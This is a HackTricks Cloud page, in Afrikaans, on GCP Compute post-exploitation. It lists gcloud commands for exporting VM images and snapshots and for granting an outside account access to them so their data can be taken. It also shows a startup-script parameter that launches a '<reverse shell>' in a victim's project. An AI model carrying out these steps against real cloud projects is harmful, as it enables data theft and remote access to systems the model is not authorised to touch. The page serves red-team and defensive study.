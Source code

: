 # GCP - Compute Post Exploitation

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compute

Vir meer inligting oor Compute en VPC (Netwerk) kyk:

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Eksporteer & Inspekteer Beelde plaaslik

Dit sou 'n aanvaller in staat stel om **toegang te verkry tot die data wat in reeds bestaande beelde bevat is** of **nuwe beelde van lopende VM's te skep** en toegang tot hul data te verkry sonder om toegang tot die lopende VM te hê.

Dit is moontlik om 'n VM-beeld na 'n emmer te eksporteer en dit dan af te laai en plaaslik te monteer met die opdrag:

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

Voordat hierdie aksie uitgevoer kan word, mag die aanvaller moontlik bevoegdhede oor die stoor-bucket benodig en beslis **bevoegdhede oor cloudbuild** aangesien dit die **diens** is wat gevra gaan word om die uitvoer uit te voer.\
Boonop, om dit te laat werk, benodig die codebuild SA en die compute SA bevoorregte toestemmings.\
Die cloudbuild SA `<project-id>@cloudbuild.gserviceaccount.com` benodig:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

En die SA `<project-id>-compute@developer.gserviceaccount.com` benodig:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### Eksporteer & Ondersoek Snapshots & Skyfies plaaslik

Dit is nie moontlik om snapshots en skyfies direk te eksporteer nie, maar dit is moontlik om **'n snapshot in 'n skyf, 'n skyf in 'n beeld** te transformeer en volgens die **vorige afdeling**, daardie beeld te eksporteer om dit plaaslik te ondersoek.

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### Ondersoek 'n Beeld wat 'n VM skep

Met die doel om toegang te verkry tot die **data wat in 'n beeld gestoor is** of binne 'n **lopende VM** van waar 'n aanvaller **'n beeld geskep het,** is dit moontlik om 'n eksterne rekening toegang tot die beeld te gee:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
en dan 'n nuwe VM daaruit skep:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
As jy nie jou eksterne rekening toegang oor die beeld kon gee nie, kan jy 'n VM met daardie beeld in die slagoffer se projek begin en **die metadata laat uitvoer 'n omgekeerde dop** om toegang tot die beeld te verkry deur die param toe te voeg:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Inspect a Snapshot/Disk attaching it to a VM

Met die doel om toegang te verkry tot die **data wat in 'n skyf of 'n snapshot gestoor is, kan jy die snapshot in 'n skyf omskep, 'n skyf in 'n beeld en die vorige stappe volg.**

Of jy kan **'n eksterne rekening toegang verleen** oor die skyf (as die beginpunt 'n snapshot is, gee toegang oor die snapshot of skep 'n skyf daarvan):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**Koppel die skyf** aan 'n instansie:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
Mount die skyf binne die VM:

1.  **SSH in die VM**:

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```
2. **Identifiseer die Skyf**: Sodra jy binne die VM is, identifiseer die nuwe skyf deur die skyf toestelle te lys. Gewoonlik kan jy dit vind as `/dev/sdb`, `/dev/sdc`, ens.
3. **Formateer en Mount die Skyf** (as dit 'n nuwe of rou skyf is):
*   Skep 'n mount punt:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```
*   Mount die skyf:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

As jy **nie toegang tot 'n eksterne projek** vir die snapshot of skyf kan gee nie, moet jy dalk **hierdie aksies binne 'n instansie in dieselfde projek as die snapshot/skyf** uitvoer.

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check die [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
